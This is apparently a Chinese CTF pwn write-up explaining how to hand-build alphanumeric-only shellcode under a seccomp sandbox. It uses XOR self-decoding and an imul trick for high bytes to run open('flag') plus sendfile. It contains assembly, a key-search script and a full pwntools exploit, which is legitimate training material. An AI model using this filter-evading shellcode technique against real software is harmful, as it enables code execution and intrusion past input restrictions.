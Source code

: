 ```yaml
---
title: 一道异或手搓shellcode
date: 2024-9-1
tags: 赛后诸葛亮
categories: ctf
---
```

# 审题
[题目附件](./pwn)
![main](./main.png)
很清晰的看到，题目是给了一个0x53的shellcode读入，并且限制必须是`0-9,A-Z,a-z`中的字符，并且直接清零了除了rsp和rip之外的所有寄存器。
![sandbox](./sandbox.png)
以及程序甚至还有沙箱，禁用了大部分系统调用，read也被禁用，而且还有第一三四个参数必须为0或1的规则。基本上只剩下了open('flag',0,0)加上sendfile的方法。

由于shellcode的字节太少，不能通过现成的ae64，alpha3之类的可视化字符生成工具来写shellcode，必须用到异或手搓。
# 思路
通过异或的方式来恢复shellcode中违规字符，那么第一步就是先编写好shellcode，并且尽可能减少其中违规字符的出现频率，以达到减少异或解码段长度的目的。
```asm
# open('flag',0,0)
push 0x67616c66
push rsp
pop rdi
push 0x2
pop rax
syscall

# sendfile(1,0,0,1)
label:
push 0x1
push 0x28
pop rax
push rdx
pop rsi
pop rdi
push rdi
pop r10
syscall
jmp label
```
如上汇编代码的机器码为
```python
shellcode = b'\x68\x66\x6C\x61\x67\x54\x5F\x6A\x02\x58\x0F\x05'
shellcode+= b'\x6A\x01\x6A\x28\x58\x52\x5E\x5F\x57\x41\x5A\x0F\x05\xEB\xF1'
```
然后编写一个简单的脚本，找出合法字符集合中是否存在字符A，能够与shellcode中的任意非法字符异或得到合法字符集中的字符(怎么突然严谨起来了)
```python
wrongset = []
wrongset.append(0x5f)
wrongset.append(0x02)
wrongset.append(0x0f)
wrongset.append(0x05)
wrongset.append(0x01)
wrongset.append(0x28)
wrongset.append(0x5e)
# 0x6a
wrongset.append(0xeb)
wrongset.append(0xf1)
# 0xa8

charset = []
for i in range(0x30,0x3a,1):
    charset.append(i)
for i in range(0x41,0x5b,1):
    charset.append(i)
for i in range(0x61,0x7b,1):
    charset.append(i)
for char in charset:
    print(chr(char))
    count = 0
    for wrongchar in wrongset:
        if wrongchar^char in charset:
            print(f'{hex(wrongchar)}^{hex(char)} in charset')
            count += 1
    print(f'{hex(char)} got {count} points')
```
结论是前面的七个非法字节都有很多字符满足条件，我最后选择了0x6a。而shellcode中的最后两个字节，也就是jmp -0xf，由于0xeb和0xf1都大于0x7f，必须要大于0x7f的数字与合法字符异或才能得到，这一部分我参考火箭的思路，选择了imul的乘法来得到大数。

接下来着手编写异或解码段，我选择了`xor [rdi+立即数],dl`作为异或。那么就需要rdi是一个指向`0x20240000`的数，由于`0x20240000`也是非法字符，所以只能通过异或来取得。

由于我是个笨蛋，没想到怎么写比较好，就抄了官方wp的前面这一部分
```
push 0x6a6a6a6a;push rsp;pop rcx
xor edi,[rcx]
pop rdx;push 0x4a4e6a4a
xor edi,[rcx]
```
然后就是重复使用`xor [rdi+立即数],dl`
```
xor [rdi + 0x3c + 7 + 1],dl
xor [rdi + 0x3c + 9 + 1],dl
xor [rdi + 0x3c + 0xe + 1],dl
xor [rdi + 0x3c + 0x10 + 1],dl

xor [rdi + 0x3c + 0x13 + 1],dx
xor [rdi + 0x3c + 0xb + 1],dx
xor [rdi + 0x3c + 0x18 + 1],dx
```
如果有连续两个非法字符连在一起，还可以使用`dx`来一次改两个字节

接下来是处理最后的两个字节`0xEBF1`
我使用`imul r15,[rcx],0x44`，将[rcx]的值乘以0x44，放进r15。本来还想使用rsi的，能省一个字节，但问题是之后还得将rsi清零，要不然会影响syscall的结果，权衡一下还是很明确使用r15更划算。
[rcx]的值是`0x4a4e6a4a`根据我的遍历，得到了0x44是可以使用的，0x44*0x4a=0xa8。而我的遍历脚本告诉我0xa8可以与0xeb以及0xf1分别异或都能得到合法字符。

在imul之后，继续吧r15的值给rdx，继续`xor [rdi+立即数],dl`
```
push r15;pop rdx
push r15;pop rdx
xor [rdi + 0x57],dl
xor [rdi + 0x58],dl

push rax;pop rdx # 将等会会用到的参数清零，以保证syscall得到正确结果
```
# 整体exp
```python
shellcode = asm('''
push 0x6a6a6a6a;push rsp;pop rcx
xor edi,[rcx]
pop rdx;push 0x4a4e6a4a
xor edi,[rcx]

xor [rdi + 0x3c + 7 + 1],dl
xor [rdi + 0x3c + 9 + 1],dl
xor [rdi + 0x3c + 0xe + 1],dl
xor [rdi + 0x3c + 0x10 + 1],dl

xor [rdi + 0x3c + 0x13 + 1],dx
xor [rdi + 0x3c + 0xb + 1],dx
xor [rdi + 0x3c + 0x18 + 1],dx

imul r15,[rcx],0x44
push r15;pop rdx
xor [rdi + 0x57],dl
xor [rdi + 0x58],dl

push rax;pop rdx
''')

# 7,9,(0xb,0xc)
shellcode+= b'\x68\x66\x6C\x61\x67\x54\x35\x6A\x68\x58\x65\x6F'
originset = b'\x68\x66\x6C\x61\x67\x54\x5F\x6A\x02\x58\x0F\x05'

# 0xe,0x10,0x13,(0x17,0x18)
shellcode+= b'\x6A\x6B\x6A\x42\x58\x52\x34\x35\x57\x41\x5A\x65\x6F'
originset+= b'\x6A\x01\x6A\x28\x58\x52\x5E\x5F\x57\x41\x5A\x0F\x05\xEB\xF1'

shellcode+= b'\x43\x59'
# a8
io.send(shellcode)

io.recvuntil('>')
flag = io.recvuntil(b'}')
print(flag)
```
咳咳，太难搞了，很多数值在规划的时候没有办法获得准确结果，必须走一步看一步。而这样就心里很没底。


